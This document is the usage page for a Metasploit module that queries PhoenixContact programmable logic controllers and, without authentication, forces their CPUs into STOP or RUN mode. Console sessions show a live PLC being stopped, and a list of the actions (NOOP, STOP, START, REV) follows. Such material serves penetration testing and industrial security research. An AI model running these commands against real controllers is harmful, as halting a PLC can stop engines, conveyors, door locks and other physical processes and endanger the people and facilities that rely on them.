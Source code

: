 PhoenixContact Programmable Logic Controllers are built are using a variant of
ProConOS. The communicate using a proprietary protocol over ports TCP/1962 and
TCP/41100 or TCP/20547.  This protocol allows a user to remotely determine the
PLC type, firmware and build number on port TCP/1962.  A user can also
determine the CPU State (Running or Stopped) and start or stop the CPU.

This functionality is confirmed for the PLC series ILC 15x and 17x on TCP port
20547, and for the ILC 39x series on TCP port 41100. Other series may or
may not work, but there is a good chance that they will

## Vulnerable Application

This is a hardware zero-day vulnerability that CANNOT be patched. Possible
mitigations include: pulling the plug (literally), using network isolation
(Firewall, Router, IDS, IPS, network segmentation, etc...) or not allowing bad
people on your network.

Most, if not all, PLC's (computers that control engines, robots, conveyor
belts, sensors, camera's, doorlocks, CRACs ...) have vulnerabilities where,
using their own tools, remote configuration and programming can be done
*WITHOUT* authentication.  Investigators and underground hackers are just now
creating simple tools to convert the, often proprietary, protocols into simple
scripts.  The operating word here is proprietary. Right now, the only thing
stopping very bad stuff from happening.  PhoenixContact uses an (unnamed?)
low-level protocol for connection, information exchange and configuration of
its PLC devices.  This script utilizes that protocol for finding information
and switching the PLC mode from STOP to RUN and vice-versa.

## Verification Steps

The following demonstrates a basic scenario, we "found" two devices with an open port TCP/1962:

```
msf > search phoenix
msf > use auxiliary/admin/scada/phoenix_command
msf auxiliary(phoenix_command) > set RHOST 10.66.56.12
RHOST => 10.66.56.12
msf auxiliary(phoenix_command) > run

[*] 10.66.56.12:0 - PLC Type = ILC 150 GSM/GPRS
[*] 10.66.56.12:0 - Firmware = 3.71
[*] 10.66.56.12:0 - Build    = 07/13/11 12:00:00
[*] 10.66.56.12:0 - ------------------------------------
[*] 10.66.56.12:0 - --> Detected 15x/17x series, getting current CPU state:
[*] 10.66.56.12:0 - CPU Mode = RUN
[*] 10.66.56.12:0 - ------------------------------------
[*] 10.66.56.12:0 - --> No action specified (NOOP), stopping here
[*] Auxiliary module execution completed

msf auxiliary(phoenix_command) > set RHOST 10.66.56.72
RHOST => 10.66.56.72
msf auxiliary(phoenix_command) > set ACTION REV
ACTION => REV
msf auxiliary(phoenix_command) > run
[*] 10.66.56.72:0 - PLC Type = ILC 390 PN 2TX-IB
[*] 10.66.56.72:0 - Firmware = 3.95
[*] 10.66.56.72:0 - Build    = 02/14/11 14:04:47
[*] 10.66.56.72:0 - ------------------------------------
[*] 10.66.56.72:0 - --> Detected 39x series, getting current CPU state:
[*] 10.66.56.72:0 - CPU Mode = RUN
[*] 10.66.56.72:0 - ------------------------------------
[*] 10.66.56.72:0 - --> Sending STOP now
[*] 10.66.56.72:0 - CPU Mode = STOP
[*] Auxiliary module execution completed
```

## Options
```
msf auxiliary(phoenix_command) > show options

Module options (auxiliary/admin/scada/phoenix_command):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   ACTION     NOOP             yes       PLC CPU action, REV means reverse state (Accepted: STOP, START, REV, NOOP)
   RHOST                       yes       The target address
   RINFOPORT  1962             yes       Set info port
   RPORT                       no        Set action port, will try autodetect when not set
```

By default, the module only reads out the PLC Type, Firmware version, Build
date and current CPU mode (RUNing or STOPed)

The first three pieces of data (Type, Firmware & Build) are always found on
port TCP/1962 (there is no way of changing that port on the PLC, so also no
reason to change the 'RINFOPORT' option)

The CPU mode uses a TCP port depending on the PLC Type, the module will
automatically detect the type and port to use, but can be overridden with the
'RPORT' option, however no real reason to configure it. If you accidentally set RPORT, you can unset it with the ```unset RPORT``` command.

### ACTION

Action has four possible values:

By default, the module will do nothing to the PLC, therefore No Operation or 'NOOP':

```
msf auxiliary(phoenix_command) > set ACTION NOOP
```

The PLC can be forced to go into STOP mode, meaning it stops all execution and all outputs are set to low:

```
msf auxiliary(phoenix_command) > set ACTION STOP
```

The PLC can be forced to go into RUN mode, where it keeps running it was or it will start executing its current boot programming:

```
msf auxiliary(phoenix_command) > set ACTION START
```

The module can also just read out the CPU mode and then reverse whatever it finds, RUN becomes STOP, STOP becomes RUN:

```
msf auxiliary(phoenix_command) > set ACTION REV
```
